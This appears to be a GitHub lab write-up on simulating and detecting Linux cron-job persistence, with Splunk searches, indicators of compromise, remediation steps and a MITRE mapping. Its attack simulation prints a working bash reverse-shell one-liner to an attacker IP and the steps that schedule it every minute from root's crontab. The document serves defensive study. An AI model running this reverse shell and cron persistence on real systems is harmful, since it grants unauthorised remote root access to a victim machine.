


# Linux Persistence Detection via Cron Jobs

## Objective

This lab demonstrates detection of malicious persistence using cron jobs on a Linux system, along with SIEM-based detection using Splunk Enterprise.

The goal is to simulate real attacker behavior and analyze logs like a SOC analyst.

## Lab Architecture

| Component | Role |
|---|---|
| Kali Linux | Attacker |
| Ubuntu | Victim |
| Splunk Enterprise | SIEM |
| Splunk Forwarder | Log collection |

## Attack Scenario Overview

An attacker establishes persistence on a Linux system by:

- Creating a malicious script
- Scheduling it using cron
- Executing it repeatedly
- Establishing a reverse shell connection

## Attack Flow

1. **Persistence (cron job)**
   - Attacker creates a reverse shell script
   - Adds it to the victim's crontab
   - Script executes every 1 minute

2. **Log Generation**
   - System logs cron job execution in `/var/log/syslog`
   - Logs are forwarded to Splunk via Forwarder

3. **Detection (Splunk)**
   - Splunk analyst searches for suspicious cron activity
   - Identifies malicious commands and reverse shell patterns
   - Correlates events to detect persistence mechanism

## Attack Simulation

### Step 1: Create a malicious script

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.10/4444 0>&1
```

### Step 2: Save script

```bash
sudo nano /tmp/backdoor.sh
```

### Step 3: Make it executable

```bash
sudo chmod +x /tmp/backdoor.sh
```

### Step 4: Add to crontab

```bash
sudo crontab -e
```

Add the following line:

```
* * * * * /tmp/backdoor.sh
```

### Step 5: Verify cron job

```bash
crontab -l
```

Expected output:

```
* * * * * /tmp/backdoor.sh
```

## Explanation of Code

| Part | Meaning |
|---|---|
| `* * * * *` | Every minute (minute, hour, day, month, weekday) |
| `/tmp/backdoor.sh` | Executes the malicious script |

Cron syntax fields (5 fields):

| Field | Description | Value |
|---|---|---|
| 1 | Minute | 0-59 |
| 2 | Hour | 0-23 |
| 3 | Day of month | 1-31 |
| 4 | Month | 1-12 |
| 5 | Day of week | 0-6 |

## Evidence / Screenshots

### 1. Crontab Entry

Shows the scheduled malicious cron job running every minute.



### 2. Cron Execution Logs

System logs showing the cron daemon executing `/tmp/backdoor.sh` at regular intervals.



### 3. Reverse Shell Connection

Attacker's Netcat listener receiving incoming connections from the victim.


## Log Generation

### Cron Daemon Logs (Syslog)

Sample log entries:

```
Jan 15 10:01:01 ubuntu CRON[12345]: (root) CMD (/tmp/backdoor.sh)
Jan 15 10:02:01 ubuntu CRON[12346]: (root) CMD (/tmp/backdoor.sh)
Jan 15 10:03:01 ubuntu CRON[12346]: (root) CMD (/tmp/backdoor.sh)
```

### Auth Logs

```bash
grep CRON /var/log/auth.log
```

## Detection in Splunk

### Step 1: Import Logs

- Logs from `/var/log/syslog` are ingested via Splunk Forwarder
- Index: `linux_logs`
- Sourcetype: `syslog`

### Step 2: Search Query

```spl
index=linux_logs sourcetype=syslog "CMD" "/tmp/backdoor.sh"
| table _time host user action
| sort _time
```

### Step 3: Analyze Results

Results show repeated execution of the malicious script from crontab.

### Step 4: Identify Persistence Pattern

Look for:

- Repeated execution of suspicious scripts
- Scripts located in temporary directories (`/tmp`, `/var/tmp`)
- Unusual outbound network connections from cron
- Reverse shell patterns (`/dev/tcp`, `bash -i`)

### Step 5: Correlate with Network Logs

```spl
index=linux_logs sourcetype=syslog "CMD" "/tmp/backdoor.sh"
| timechart count by host
```

This shows the frequency of malicious cron executions over time.

## Alert Analysis

### Why This is a True Positive

- The cron job executes from `/tmp`, a writable directory (unusual for legitimate services)
- The script name `backdoor.sh` is highly suspicious
- Execution occurs every minute (high frequency, typical for persistence)
- Script contains a reverse shell payload
- No legitimate user or admin created this cron entry

### Indicators of Compromise (IOC)

- Malicious script: `/tmp/backdoor.sh`
- Reverse shell pattern: `bash -i >& /dev/tcp/[IP]/[PORT]`
- Frequent cron execution from `/tmp`
- Outbound connection to attacker's IP on port 4444

## Recommended Remediation

### Immediate Actions

- Remove the malicious cron entry:

```bash
sudo crontab -e
# Remove the line containing backdoor.sh
```

- Delete the malicious script:

```bash
sudo rm /tmp/backdoor.sh
```

- Check for other persistence mechanisms:

```bash
sudo cat /etc/crontab
sudo ls -la /etc/cron.*
sudo systemctl list-timers --all
```

- Block the attacker's IP on the firewall:

```bash
sudo iptables -A OUTPUT -d 192.168.1.10 -j DROP
```

### Long-term Prevention

- Restrict cron access using `/etc/cron.allow` and `/etc/cron.deny`
- Monitor `/var/log/syslog` and `/var/log/auth.log` continuously
- Set up Splunk alerts for:
  - New cron jobs from `/tmp` or `/var/tmp`
  - Repeated execution of scripts from unusual locations
  - Any `bash -i` or `/dev/tcp` patterns in logs
- Implement file integrity monitoring (FIM) on cron-related files
- Enforce least privilege for user accounts
- Regularly audit crontab entries across all systems

## MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---|---|---|
| Persistence | Scheduled Task/Job: Cron | T1053.003 |
| Execution | Command and Scripting Interpreter | T1059 |
| Exfiltration | Exfiltration Over C2 Channel | T1041 |

## Lessons Learned

- Cron jobs are a common persistence mechanism used by attackers on Linux systems
- SIEM correlation is critical for detecting patterns that single log entries may not reveal
- Regular auditing of scheduled tasks should be part of SOC operations
- Temporary directories like `/tmp` should be monitored for executable scripts
- Reverse shell connections often use common ports (4444, 5555, 8080) which should be monitored
